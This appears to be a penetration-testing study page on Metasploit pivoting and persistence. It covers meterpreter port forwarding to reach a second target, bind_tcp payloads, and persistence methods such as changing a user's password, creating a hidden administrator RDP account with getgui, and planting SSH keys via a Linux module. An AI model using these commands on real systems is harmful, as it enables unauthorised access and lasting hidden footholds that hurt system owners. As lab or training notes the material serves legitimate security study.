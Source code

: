 {% hint style="info" %}
**Notes**

* Scanning with metasploit is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
* Since **target\_sys\_2 does not have a route back to attacker\_sys,** when you user an exploi&#x74;**, use bind\_shell payload.** E.g. `windows/meterpreter/bind_tcp`
{% endhint %}

***

**Port forwarding (meterpreter/metasploit)**

```sh
# Forward remote port to local port. Here, we want to scan the port 80 of the target 2
portfwd add -l 1234 -p 80 -r <target_sys_2_ip>

portfwd list
nmap -sV -sC -p 1234 localhost
```

## <mark style="color:purple;">Persistence</mark>

### <mark style="color:purple;">**Windows**</mark>

**(1) Metasploit - Module:** Search persistence module (Windows). Ex: `exploit/windows/local/persistence_service` (Requires admin or system privileges). When you want to connect again set a listener to receive the connection

**(2) Enable RDP**

* First way with metasploit: search `enable_rdp` (and set session). Then connect to victim.

{% hint style="info" %}
**Note**: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM or you can create a new account and add it to administrator group.
{% endhint %}

* Second way with metasploit/meterpreter (auto create account and settings):

```sh
# In meterpreter
run getgui -e -u user_you_want -p password_you_want

# This enables rdp service -> 
# Creates new user with the provided parameters -> 
# Hides user from windows login screen -> 
# Adds user to Remote Desktop Users and Administrators group
```

### <mark style="color:purple;">**Linux**</mark>

**(1) Metasploit:** Search persistence module (Linux). Example: `post/linux/manage/sshkey_persistence` (needed elevated privs - This module will add an SSH key to a specified user)
